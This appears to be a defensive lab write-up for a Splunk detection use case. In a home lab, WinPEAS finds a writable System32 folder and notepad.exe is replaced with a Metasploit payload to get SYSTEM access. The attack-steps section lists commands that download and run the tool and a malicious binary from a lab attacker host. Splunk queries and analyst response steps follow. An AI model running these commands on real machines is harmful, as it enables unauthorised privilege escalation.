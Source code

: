 

# Detection Usecase 1 : Privilege Escalation using WinPEAS


# Scenario Summary: 

An Attacker has gain a local access to a machine, he attempts to scan the system with winpeas for any weakness. The System was vulnerable to DLL Hijacking as attacker has write access to System32 folder. He tried to replace the notepad.exe with a malware and gain system level access to the Machine.

# Attack Steps:

Here, Virtual Windows 11 is the victim where universal forwarder is running,  
and Virtual Kali Linux is the attacker.  
- The Attack was simulated by Kali Linux on Windows as follows:  

1) Attacker logged into the system using SSH:   
```
ssh sshuser@192.168.0.101
```  
2) Downloaded the winpeas and executed it:    
```
Invoke-WebRequest -URI http://192.168.0.106:8888/winpeas.exe -Outfile C:\Users\sshuser\winpeas.exe
./winpeas.exe all
```  
3) Attacker sees write permission to System32 folder so replace the notepad.exe with malware 
and got system-level access to machine in metasploit:  
![winpeas](logs/Screenshot_2025-05-29_03_48_09.png)  
```
del C:\Windows\System32\notepad.exe
Invoke-WebRequest -URI http://192.168.0.106:8888/notepad.exe -Outfile C:\Windows\System32\notepad.exe
notepad.exe
```

- Tools Used:  
    - Attacker Tool : SSH, WinPEASx64,msfvenom,Metasploit.    
    - SIEM : Splunk Free  
    - Log Source : Windows Security Event Logs, Sysmon  


# Event ID / Data Source Mapping:

| Source                    | EventCode | Description                         |
|---------------------------|-----------|-------------------------------------|
| WinEventLog : Sysmon      | 1         | Process Creation                    |
| WinEventLog : Sysmon      | 11        | File Creation                       |
| WinEventLog : Security    | 5156      | Connection Permission was permitted |

# Detection Query / Logic:
```spl 
- Search : Process or File Creation
index=* EventCode=1 OR EventCode=11
```
```spl 
- Search : Connection Attempt
index=* EventCode=3 OR EventCode=5156
```

# Sample Alert Screenshot

1) Attacker Downloaded WinPEAS using curl and executed it:  

![download](<logs/Screenshot 2025-05-29 132304.png>)  
![created](<logs/Screenshot 2025-05-29 143620.png>)  
![execute](<logs/Screenshot 2025-05-29 143653.png>)

2) Now attacker download notepad.exe using curl and executed it:   

![notepad1](<logs/Screenshot 2025-05-29 132438.png>)  
![file_run](<logs/Screenshot 2025-05-29 132555.png>)  
![notepad2](<logs/Screenshot 2025-05-29 132355.png>)  
![notepad](<logs/Screenshot 2025-05-29 132645.png>)  

3) After getting system-level shell user run 'whomai' command:  

![whoami](<logs/Screenshot 2025-05-29 133025.png>)  

# Analyst Notes / Recommendations:

* What Should an Analyst do ? 

-> Investigate and Verify the events(e.g.,Event ID = 1) and identify what command has been executed.  
-> Try to correlate it with any previous event(e.g.,Brute-Force or Enumeration,Failed Login etc.).  
-> If found command execution of any malicious file such as winpeas.exe, isolate the system and verify the location of the executable from logs(EventID 11 or 1).   
-> Now check the system for any lateral movement which attacker usually do after running winPEAS.    
-> Trigger an incident response.     
-> Document & Report.


# Detection Status

 -> Successfully Detected.  
